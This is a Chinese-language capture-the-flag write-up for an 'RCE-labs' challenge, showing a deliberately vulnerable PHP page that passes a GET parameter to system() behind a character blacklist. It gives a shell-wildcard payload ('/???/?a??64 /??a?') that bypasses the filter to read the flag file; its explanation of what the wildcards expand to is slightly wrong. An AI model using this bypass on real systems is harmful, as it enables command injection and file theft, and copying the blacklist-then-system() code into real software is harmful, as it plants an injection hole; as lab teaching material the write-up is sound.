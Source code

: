 ![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737127527733-5f4cff11-bcc7-4f21-bf58-8195ab732d7b.png)

## <font style="color:#000000;">（七）</font><font style="color:#000000;">[RCE-labs]Level 6 - 通配符匹配绕过</font>
<font style="color:#000000;">打开靶场发现以下内容，是PHP代码</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737127875645-cc2125db-6b75-43db-8bbb-fb6287e0bce1.png)

<font style="color:#000000;">这是上一题的加强版,代码如下</font>

```php
<?php
function hello_shell($cmd){
    if(preg_match("/[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]/", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```

<font style="color:#000000;">这题与上一题的不同在于多了几个符号[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]</font>

<font style="color:#000000;"> 匹配范围为：</font>

<font style="color:#000000;">所有字母（除了小写字母 </font>`<font style="color:#000000;">a</font>`<font style="color:#000000;">）</font>

<font style="color:#000000;">特殊字符  _ @ # % ^ & * : { } - + < > " | ; [ ]`</font>

<font style="color:#000000;">由于</font><font style="color:#000000;">?代表的是匹配一个字符</font>

<font style="color:#000000;">所以构造palyload：</font>

```php
?cmd=/???/?a??64 /??a? 
```

<font style="color:#000000;">代表</font>

```php
?cmd=/cat/base64 /flag 
```

<font style="color:#000000;">得到</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737130165777-98aa4e98-1735-48a5-92c8-31380a22beff.png)

<font style="color:#000000;">再base64解码的得flag</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737130120413-f219ad16-a3e9-4bbb-aa1f-5e2e7c2b135c.png)
